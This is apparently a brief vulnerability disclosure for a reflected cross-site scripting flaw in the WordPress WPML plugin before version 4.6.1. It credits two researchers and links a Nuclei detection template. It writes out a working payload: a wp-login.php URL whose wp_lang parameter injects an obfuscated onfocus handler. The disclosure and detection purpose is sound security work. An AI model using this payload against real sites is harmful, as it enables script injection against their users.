 WordPress Plugin WPML Version < 4.6.1  RXSS vulnerability

Found by :- 
@bug_vs_me
 and 
@falcon_charan
 on 13th MArch 2023

Nuclei template:- https://github.com/bug-vs-me/nuclei/blob/main/wpml.yaml

and payload:-
 https://xxxxxxx/wp-login.php?wp_lang=%20=id=x+type=image%20id=xss%20onfoc%3C!%3Eusin+alert(0)%0c
